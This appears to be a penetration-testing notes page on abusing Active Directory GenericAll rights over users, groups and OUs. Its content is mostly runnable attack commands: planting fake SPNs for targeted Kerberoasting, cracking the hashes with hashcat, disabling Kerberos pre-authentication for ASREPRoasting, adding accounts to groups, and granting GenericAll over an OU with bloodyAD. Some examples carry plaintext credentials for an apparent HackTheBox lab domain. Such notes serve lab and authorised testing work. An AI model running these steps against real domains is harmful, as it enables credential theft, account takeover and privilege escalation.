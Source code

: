 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# GenericAll

## Over a User

### Targeted Kerberoasting

{% tabs %}
{% tab title="targetedKerberoast" %}
[targetedKerberoast](https://github.com/ShutdownRepo/targetedKerberoast) extracts Kerberoast hashes by abusing `write` access to set temporary SPNs on users without one, then removes them. It works on all users, a list, or a single user:

{% code overflow="wrap" %}
```bash
targetedKerberoast.py -v -d '<domain>' -u '<user>' -p '<pass>' --request-user '<target-account>'
```
{% endcode %}
{% endtab %}

{% tab title="PowerShell" %}
When a group/user has `GenericAll` rights over another account, a fake SPN can be assigned to the target account:

{% code overflow="wrap" %}
```powershell
# Credentialed object for the currently owned user
> $SecPass = ConvertTo-SecureString "<password>" -AsPlainText -Force
> $Cred = New-Object System.Management.Automation.PSCredential ("<domain>\<username>", $SecPass)

# Create a fake SPN for the target user
> Set-ADUser -Identity "<target-user>" -Credential $Cred -Add @{ServicePrincipalName='fake/http'}
```
{% endcode %}

Once the SPN is assigned to the target account, we can [Kerberoast](../attacks/kerberoasting.md) it and crack its hash:

{% code overflow="wrap" %}
```bash
# Kerberoast the target account
impacket-GetUserSPNs <domain>\<username>:<password> -request-user <target-user> -dc-ip <dc-ip>

# Crack the hash
hashcat -m13100 fake_spn_hash /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force
```
{% endcode %}
{% endtab %}
{% endtabs %}

### Targeted ASREPRoasting

We can disable pre-authentication for the target account and then [ASREPRoast](../attacks/as-reproasting.md) it:

{% tabs %}
{% tab title="PS" %}
```powershell
# Set the preauth option to true
Set-DomainObject -Identity <USER> -XOR @{UserAccountControl=4194304}
```
{% endtab %}

{% tab title="PowerView" %}
```powershell
# Set the preauth option to true
Get-ADUser <USER> | Set-ADAccountControl -doesnotrequirepreauth $true
# Confirm that it worked
Get-ADUSer -Filter 'DoesNotRequirePreAuth -eq $true'
```
{% endtab %}
{% endtabs %}

> _An example of the above method can be found_ [_here_](../../../boxes/insane/multimaster.md#genericwrite-rights)_._

### Change user's password

See [here](forcechangepassword.md).

## Over a Group

### Add User to the Group

This can be done using [native commands](https://learn.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2012-r2-and-2012/cc754051\(v=ws.11\)), the [AD PS module](https://learn.microsoft.com/en-us/powershell/module/activedirectory/add-adgroupmember?view=windowsserver2022-ps), or PowerView.

{% tabs %}
{% tab title="PowerView.py" %}
{% code overflow="wrap" %}
```bash
# connect to the DC
powerview rebound.htb/oorend:'1GR8t@$$4u'@rebound.htb -k
# add user to the group
PV > Add-DomainGroupMember -Identity servicemgmt -Members oorend
# confirm group membership
PV > Get-DomainGroupMember -Identity servicemgmt
```
{% endcode %}
{% endtab %}

{% tab title="PowerView" %}
{% code overflow="wrap" %}
```powershell
# Adding user to the group
Add-ADGroupMember -Identity '<GROUP>' -Members <USER>
# Adding user to the group (using another user's creds)
Add-DomainGroupMember -Identity 'Core Staff' -Members 'jdgodd' -Credential $Cred -Verbose 
# Confirming group membership
Add-DomainGroupMember -Identity '<GROUP>' -Members '<USER>'
```
{% endcode %}
{% endtab %}

{% tab title="net" %}
```powershell
# add user to the group
net group <GROUP> <USER> /add /domain
# confirm group membership
net group <GROUP> /domain
# Clean up by removing the account from the group
net group <GROUP> <USER> /del /domain
```
{% endtab %}
{% endtabs %}

## Over an OU

If a group has `GenericAll` rights over an OU, then the group members can be assigned  `GenericAll` rights over the OU as well, which results in them having `FullControl` over the OU members. This gives the ability to [change any OU user's password](forcechangepassword.md).

{% tabs %}
{% tab title="bloodyAD" %}
{% code overflow="wrap" %}
```bash
# give oorend GenericAll rights over the Service Users OU
bloodyAD -d rebound.htb -u oorend -p '1GR8t@$$4u' --host dc01.rebound.htb add genericAll 'OU=SERVICE USERS,DC=REBOUND,DC=HTB' oorend
# confirm FullControl over OU members (winrm_svc)
powerview rebound.htb/oorend:'1GR8t@$$4u'@rebound.htb -k
PV > Get-DomainObjectAcl -Identity winrm_svc -Where "SecurityIdentifier contains oorend"
```
{% endcode %}
{% endtab %}
{% endtabs %}
